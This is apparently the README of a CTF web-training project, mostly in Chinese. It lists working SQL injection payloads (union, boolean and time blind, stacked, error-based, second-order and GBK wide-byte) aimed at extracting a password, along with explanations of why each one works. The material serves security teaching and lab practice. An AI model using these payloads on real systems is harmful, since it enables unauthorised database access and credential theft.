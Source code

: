 [![License: CC BY-NC-SA 4.0](https://licensebuttons.net/l/by-nc-sa/4.0/80x15.png)](https://creativecommons.org/licenses/by-nc-sa/4.0/)
# CTF_WEB_Training #

* 2021.01.31 SQL注入部分使用了Ajax以提高手工注入的体验
* 2021.02.04 SQL注入部分基本完结，二次注入暂时没有使用Ajax，接下来会补上，然后整理文件结构，再整理几个SQL注入的相关EXP，再写一下总结
* 2021.02.06 SQL注入部分完结
* 2021.02.14 文件上传%00截断需要PHP 5.2的版本，大概之后还需要制作docker

Progress
- [x]  SQL Injection
    - [x]  HTML
    - [x]  Ajax
    - [x]  Number
    - [x]  Char
    - [x]  Boolean
    - [x]  Time
    - [x]  Stacked
    - [x]  Error Reporting
	- [x]  Second Order
	- [x]  GBK
- [ ]  File Upload
	- [x]  JS
	- [x]  %00
	- [ ]  Competition
	- [ ]  Content Detection
	- [ ]  Content-Type
	- [ ]  exif_imagetype
	- [ ]  Blacklist
	- [ ]  .htaccess
	- [ ]  TBC
- [ ]  File Inclusion
- [ ]  SSRF
- [ ]  CSRF
- [ ]  XSS
- [ ]  XXE?

<hr />

# SQL Injection #

## Payload ##

* 数字型注入: ``0 union select password from user where username='flag'#``
* 字符型注入：``0' union select password from user where username='flag'#``
* 布尔注入：``1'^(ascii(substr((select password from user where username='flag'),1,1))>0)#``
* 时间注入：``1' union select (ascii(substr((select password from user where username='flag'),1,1))>0) and sleep(1)#``
* 堆叠注入：``1'; select password from user where username='flag'#``
* 报错注入：``1' and updatexml(1,concat('~',substr((select password from user where username='flag'),1,16),'~'),1)#``
* 二次注入：``1' union select password from user where username=0x666c6167#``
* GBK注入：``0�' union select password from user where username=0x666c6167#``

## 总结 ##

MySQL本身的数字包含字符类型
```
select id from user where id=1
select id from user where id='1'
```
这里所加的引号并不会执行SQL语句的执行

而数字型与字符型的区别在于PHP中的SQL语句是否使用了引号来对数据进行闭合

"万能密码"的漏洞环境所使用的SQL语句一般为
```
select * from user where username='$username' and password='$password'
```
再通过判断能否查找到用户，找到用户则判断登入通过
而能查找到用户，返回的值为True，查找不到为False
则可以插入永真逻辑来进行Bypass
```
select * from user where username='' or 1#' and password='$password'
```

而此处的Boolean漏洞环境可以通过用户是否存在作为回显，进行逻辑盲注

时间盲注的利用往往存在于无差别回显的情况下，这时无法通过回显来进行SQL查询的逻辑判断，只能通过时间延迟来进行判断

如果回显的内容为SQL语句查询出的内容，则可以通过联合查询来快速地得到信息，但是需要注意，最好使得原SQL语句无法查询出数据，否则可能会无法回显出联合查询得出的结果

报错注入在于mysqli_error()这个函数的使用

堆叠注入的特殊之处在于：堆叠注入使用的是mysqli_multi_query()，而一般使用mysqli_query()

二次注入的原理在于，插入数据时使用了addslashes()函数，查询时则没有使用addslashes()函数，使得引号插入了查询时的SQL语句

GBK注入的原因是因为GBK编码与addslashes()函数，\作为转义符来转义引号，其十六进制值为0x5C。而GBK编码的高位范围为0x81\~0xFE，低位范围为0x40\~0xFE，在\之前插入一个高位范围的字符，则会被GBK编码将两个字符识别一个GBK字符，从而使得引号进行逃逸
